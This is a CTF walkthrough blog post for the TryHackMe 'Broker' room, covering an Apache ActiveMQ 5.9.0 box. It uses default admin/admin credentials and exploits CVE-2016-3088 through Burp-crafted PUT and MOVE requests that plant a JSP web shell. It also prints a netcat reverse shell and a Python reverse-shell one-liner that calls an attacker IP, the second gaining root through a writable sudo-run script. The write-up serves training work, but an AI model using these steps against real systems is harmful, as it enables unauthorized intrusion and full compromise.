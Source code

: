 ```yaml
---
layout: post
title: "Broker"
date: 2021-03-13
ctf: true
excerpt: "Walkthrough for Broker on TryHackMe"
tags: [activeMQ, CVE, sudo abuse, Python scripting, default credentials]
comments: false


---
```


# Broker

Broker is a medium rated box recently released on TryHackMe that was recently released. Below are the steps I followed in order to answer the questions for this room, ultimately leading up to rooting the box.


## Hints

<details><summary><strong>Question 1 Hints</strong></summary>
<ul>
    <li>What tools can be used to enumerate open TCP ports on a system?
</ul>
</details>

<details><summary><strong>Question 2 Hints</strong></summary>
<ul>
    <li>Nmap with the right parameters can provide this answer.
</ul>
</details>

<details><summary><strong>Question 3 Hints</strong></summary>
<ul>
    <li>Have you found an MTTQ client?
    <li>You will need credentials to connect, have you looked for default credentials for this service?
    <li>The topics for this broker service should have one that is very obvious that will contain the answer to this question.
</ul>
</details>

<details><summary><strong>Question 4 Hints</strong></summary>
<ul>
    <li>With the credentials you uncovered in question 3, login to the site on one of the open ports and uncover the version that's running. Are there known CVEs for this version of this service?
    <li>Is there a way to obtain a reverse shell to gain an initial foothold onto the victim with a known exploit for the CVE you uncovered?
</ul>
</details>

<details><summary><strong>Question 5 Hints</strong></summary>
<ul>
    <li>Have you been able to establish a more stable/interactive shell?
    <li>What can the user run as sudo?
    <li>Is there a way this could be abused?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>
### Question 1

The first question for this room was:

![Broker Question 1](/assets/img/Broker1.png)

To answer this question, I ran

**`threader3000`**

 This produced the following, which lists the open ports on the victim host, including the two in the 1000-10000 range.

![Broker threader3000](/assets/img/Broker2.png)

### Question 2

The second question for this room was the following:

![Broker Question 2](/assets/img/Broker3.png)

Letting threader3000 run it's recommended scan will produce the following output, which contains the answer to this question:

![Broker nmap](/assets/img/Broker4.png)

### Question 3

The third question is asking for the following:

![Broker Question 3](/assets/img/Broker5.png)

Now that we know ActiveMQ is running on this host, we need to find something that will allow us to connect and retrieve these messages from this brokering service. After a bit of digging, I uncovered [MQTT.fx](https://mqttfx.jensd.de/). 

![Broker MQTT.fx website](/assets/img/Broker6.png)

After installing it I launched the application. I then clicked on the gear icon to configure my connection. As shown below (the MQTT Version was provided in the hint):



![Broker MQTT.fx connection configuration](/assets/img/Broker7.png)

Once completed, I clicked on the **User Credentials** section. We did not have a username or password to enter so I performed a quick search on Google, and uncovered that the default admin credentials were admin/admin for username and password:

![Broker ActiveMQ default credentials](/assets/img/Broker8.png)

I attempted the admin/admin credentials and was successful in connecting!

![Broker MQTT.fx credentials](/assets/img/Broker9.png)

![Broker successful connection](/assets/img/Broker10.png)

Next, I clicked on **Subscribe** and clicked on **Scan** under **Topics Collector** after a few moments, an interesting topic named **secret_chat** appears.

![Broker Subscribe scan](/assets/img/Broker11.png)

Next, in the drop down menu, I entered **secret_chat** and clicked on **Subscribe**. After a few moments, some messages come through, including one that answers this question:

![Broker video game name](/assets/img/Broker12.png)


### Question 4 - flag.txt

For this section, we need to review what we know so far. We know that Apache ActiveMQ is installed and running on port 1883. We also know there is a website hosted on port 8161 for this application. My next action was to see if there were any CVEs for ActiveMQ, but in order to narrow it down, we would need to know the version. I attempted to load the website at **http://\<victim host>:8161** and was presented with the following:

![Broker ActiveMQ website](/assets/img/Broker13.png)

I clicked on the **Manage ActiveMQ broker** and was prompted for credentials. I entered the same ones we used for MQTT.fx (admin/admin) and logged in successfully.

![Broker admin login](/assets/img/Broker14.png)

Once logged in, the main page displays the version number: **5.9.0**.

![Broker ActiveMQ version](/assets/img/Broker15.png)

After digging around on Google, I uncovered [this](https://medium.com/@knownsec404team/analysis-of-apache-activemq-remote-code-execution-vulnerability-cve-2016-3088-575f80924f30) article, which explains how you can upload an arbitrary jsp file and move it into a directory where it is executable. The first thing I would need is a jsp shell. I ended up using the one located [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp).

Next, I loaded up Burp Suite to have it intercept traffic and I went to the **/fileserver** directory as mentioned in the article on how to exploit ActiveMQ.

![Broker /fileserver directory](/assets/img/Broker16.png)

In Burp Suite, I let the intercepted traffic go through and then I clicked on the **Target** tab and right clicked on the GET request and sent that request to **Repeater**

![Broker Burp Suite Target](/assets/img/Broker17.png)

Next, I changed the GET request to a PUT request and appended shell.jsp to the URL. I then all the information for the request after the Host: section and added in **Authorization: Basic YWRtaW46YWRtaW4=** (this is admin:admin in base64, which can be gathered from sniffing the traffic when calculating it in Kali or by using CyberChef as shown below).

![Broker CyberChef](/assets/img/Broker18.png)

Next, I left a blank line and pasted in the shell downloaded from the previously mentioned GitHub repository and clicked on Send. If successful, you will receive a 204 response code as shown below:

![Broker upload shell Burp](/assets/img/Broker19.png)

Next, we need to move this into the admin directory, in order to do so, we need to modify the request in Repeater by removing the jsp shell code, and change the URI path to **/fileserver/asdf/%20/%20**. We know this does not exist, which is done on purpose so we can return the full directory path in the response, as shown below:

![Broker return directory path Burp](/assets/img/Broker20.png)

This is needed since we need to know the path involved to move the file into the admin directory. Now that we know the path, we can modify our command in Repeater once again to move the file into the admin directory. This is done by changing the type from PUT to MOVE and referencing the shell.jsp file we initially uploaded. We would then need to add  **Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/shell.jsp** to the request, to move the shell to the admin folder where it can be executed.  Next, add a blank line followed by whatever text you would like. Once modified, click on **Send**. You should get another 204 HTTP response as shown below:

![Broker move jsp shell](/assets/img/Broker21.png)

At this point, you are done with Burp Suite, so you can close it if you would like. Now, in your browser, navigate to **http://\<victim ip>:8161/admin/shell.jsp** and you should see something similar to the following:

![Broker jsp shell](/assets/img/Broker22.png)

After entering a few commands, it appears that netcat is present on the victim machine

![Broker nc](/assets/img/Broker23.png)

On our attacker box, let's open a listener with netcat to catch a reverse shell  on port 4567 with:

**`nc -nvlp 4567`**

![Broker nc listener](/assets/img/Broker24.png)

Next, on our victim host, enter a [ netcat reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat) on the victim host and click on send:

**`nc -e /bin/bash <attacker ip> 4567`**

![Broker enter nc reverse shell](/assets/img/Broker25.png)

You should now have a foothold into this system!

![Broker initial foothold](/assets/img/Broker26.png)

We are limited with what commands can be ran, so let's see if we can find a way to upgrade our shell. Luckily, python3 is installed on the victim host as shown below:

![Broker which python3](/assets/img/Broker27.png)

Let's run:

**`python3 -c 'import pty; pty.spawn("/bin/bash")'`** 

to upgrade our shell.

![Broker upgraded shell](/assets/img/Broker28.png)

Next, let's run: 

**`ls`** 

and we will see the **flag.txt** file in this directory.

![Broker ls](/assets/img/Broker29.png)

Let's next run:

**`cat flag.txt`**

to answer this question.

![Broker cat flag.txt](/assets/img/Broker30.png)

### Question 5 - root.txt

The final challenge is to obtain root.txt. Thankfully, privilege escalation is rather simple for this box. 

![Broker root.txt](/assets/img/Broker31.png)

First, let's run:

**`sudo -l`** 

to see what commands this user can run as sudo. We receive the following as a response:

![Broker sudo -l](/assets/img/Broker32.png)

It appears we can run python 3.7 with the subscribe.py file as root. Let's see what permissions we have on that file with the following:

**`ls -al /opt/apache-activemq-5.9.0|grep subscribe.py`**

We see that the activemq user has access to write to this file!

![Broker ls -al](/assets/img/Broker33.png)

Since this is executed as root, we just need to enter a python reverse shell into this file and execute it as root with sudo. First, we need to get our Python [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) payload. We will take the Ipv4 one listed for Python, and make some modifications and echo it into the subscribe.py file as follows:

**`echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > subscribe.py`**

The "attack ip" portion above would need to be replaced with your attacker IP address (in quotes). The > designates to overwrite the contents of the previous file.

![Broker echo reverse shell](/assets/img/Broker34.png)

This can be verified by running:

**`cat subscribe.py`**

We should see our reverse shell string at the end of the file.

![Broker cat subscribe.py](/assets/img/Broker35.png)

Next, on the attacker host, run:

**`nc -nvlp 4242`**

to catch the reverse shell as root:

![Broker nc listener for root shell](/assets/img/Broker36.png)

Next, on the victim host, run the command that was listed under sudo -l with sudo prepending the command:

**`sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py`**

![Broker sudo python3](/assets/img/Broker37.png)

We should now have a shell as root on the listener on port 4242

![Broker root shell](/assets/img/Broker38.png)

Now, to wrap up this box, let's run the following commands:

**`cd root`**

**`ls`**

**`cat root.txt`**

![Broker root.txt flag](/assets/img/Broker39.png)

That's it! This box has been fully compromised!

</details>
